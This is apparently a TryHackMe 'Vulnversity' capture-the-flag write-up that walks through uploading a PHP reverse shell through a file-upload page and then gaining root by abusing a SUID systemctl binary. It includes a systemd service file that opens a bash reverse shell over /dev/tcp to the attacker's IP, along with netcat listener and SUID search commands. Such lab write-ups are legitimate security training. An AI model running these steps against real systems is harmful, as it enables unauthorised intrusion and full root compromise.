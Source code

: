 # Vulnversity Room - CTF

This weekend I completed the Vulnversity room. 
This room was an introductory room. 

It was a webserver exploitation based on PHP and then privilege escalation through their ubuntu web server.

In summary, the server had an upload port where we uploaded a reverse PHP shell, then through this shell escalated our privilages to root using a misconfigured permission on the systemctl program within the Ubuntu server.

Note I have not included the basic setup steps for TryHackMe. 
Initially I started usinmg the provide 'AttackBox' from TryHackMe, but part way I ended up using my open Kali linux box connected via the VPN.

Here is how it went:

## Step 1: Reconnaissance

### Basic reconnaissance was performed using NMAP. 

The open ports discovered with NMAP:

![image](https://user-images.githubusercontent.com/60744763/120154230-ffc22900-c232-11eb-88a2-8df3177cc8b7.png)

Then I looked at the versions of the services with these open ports using the -sV flag with NMAP

![image](https://user-images.githubusercontent.com/60744763/120154311-18cada00-c233-11eb-9682-38c0e05c6c73.png)

We can see Apache running on port 3333, this will be our attack vector. 

From here we use GoBuster to look for interesting directories on the web server. I  used a brute force method with different word lists.
After trying with a few word I found some interesting folders.

![image](https://user-images.githubusercontent.com/60744763/120154589-634c5680-c233-11eb-8896-7a0501b2bcee.png)

From here we discovered the 'internal' folder, browsing to this showed us an upload portal.

![image](https://user-images.githubusercontent.com/60744763/120154708-7a8b4400-c233-11eb-8603-b287a43fd81b.png)

*Note at this point I changed over to my Kali linux box and reset the target machine, as such the IP address changed.*

## Step 2: Attempt to deliver a pay load and compromise the server

I use Burp to try and findout what types of file extensions I can be uploaded, hoping for a PHP based file. 
Using Burp's sniper attack allows me to try various file extensions very quickly. 
 
![image](https://user-images.githubusercontent.com/60744763/120155034-cf2ebf00-c233-11eb-88b3-a73405d0430d.png)

This identified that .phtml files can be uploaded, see above.

### No we deliver the payload:

I uploaded a php reverse shell as a .phtml file using the target's upload page. 
I edited the reverse shell script variables so it points to my Kali linux’s IP and port. 
The reverse shell was from here: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php 

Then I setup another netcat listener with this command: `nc -lvnp 1234`
This will listen for a connection on port 1234. 
*Note the php reverse shell must be set with this port and my IP address so it can make a connection.*

Then I went to the url http://10.10.151.175:3333/internal/uploads/php-reverse-shell.phtml to run the script I just uploaded. 

Seconds later I received a connection on my netcat listener!
We can see below the reverse shell has made a connection back to my kali box.

![image](https://user-images.githubusercontent.com/60744763/120155466-33ea1980-c234-11eb-81fe-00558f14202d.png)

And now I have shell access! 

Searching around on this server, I found the first flag in the user's home folder.

![image](https://user-images.githubusercontent.com/60744763/120155639-6267f480-c234-11eb-9e0a-4a654587ef5a.png)

## Step 3: Privilege Escalation

Now we want to attemp to get root access. I will look for files with the SUID bit set, maybe one of them can be exploited.

I used the command `find . -perm /4000` to files with the SUID permissions set. 
This showed that `systemctl` had the sticky-bit set, which is not normal. As a normal user can stop, start and even create services.

At this point my plan is to create a service that launches a shell which I can access with the systemctl command. 
Now researching how to do this...

I found this article which discusses making a reverse bash shell service to exploit systemctl.
https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49 


I created a file called root.service file as below, which will be my service file:
```
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.4.37.95/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

I named the file with a phtml extension and uploaded it through the site (this was quicker than using the nc terminal to create the service file).

Then I renamed the uploaded file from my active shell on the webserver to root.service. 
Then I ran the following command to create the appropriate symlinks and allow the system to run the service: 
`systemctl enable /var/www/html/internal/uploads/root.service`

![image](https://user-images.githubusercontent.com/60744763/120155982-cc809980-c234-11eb-94ba-2cb1ab4b9bb9.png)

Now we have created a new service which should launch a reverse shell back to my kali box.

At this point I opened another netcat listener on port 9999 (as per the root.service) on my Kali box. 
After this I started the service on the webserver shell with the command `systemctl start root.service`

Presto! The service connected back to my Kali machine with the reverse shell as root. See below...

![image](https://user-images.githubusercontent.com/60744763/120156128-005bbf00-c235-11eb-9ddf-8ac81e94314a.png)

The flag was found in the folder /root/



